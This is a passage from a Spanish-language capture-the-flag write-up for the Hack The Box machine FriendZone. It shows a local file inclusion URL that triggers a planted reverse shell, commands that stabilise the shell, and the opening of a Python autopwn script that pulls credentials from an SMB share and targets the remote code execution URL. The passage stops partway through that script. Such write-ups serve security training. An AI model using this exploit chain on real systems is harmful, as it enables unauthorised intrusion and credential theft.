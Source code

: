 1. En el dashboard, intentamos ver si vemos la pagina

    ```bash
    https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=/../../../../../etc/Development/reverse
    ```

Ya hemos ganado acceso al systema.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Creando un autopwn en python {-}

```python
#!/usr/bin/python3

import pdb
import urllib3
import urllib

from smb.SMBHandler import SMBHandler

from pwn import *

def def_handler(sig, frame):

    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "https://administrator1.friendzone.red/login.php"
rce_url = "https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/reverse"
lport = 443

def getCreds():
    opener = urllib.request.build_opener(SMBHandler)
    fh = opener.open('smb://10.10.10.123/general/creds.txt')
    data = fh.read()
    fh.close()

    data = data.decode('utf-8')
    username = re.findall(r'(.*?):', data)[1]
    password = re.findall(r':(.*)', data)[1]

    return username, password

def makeRequest(username, password):
```
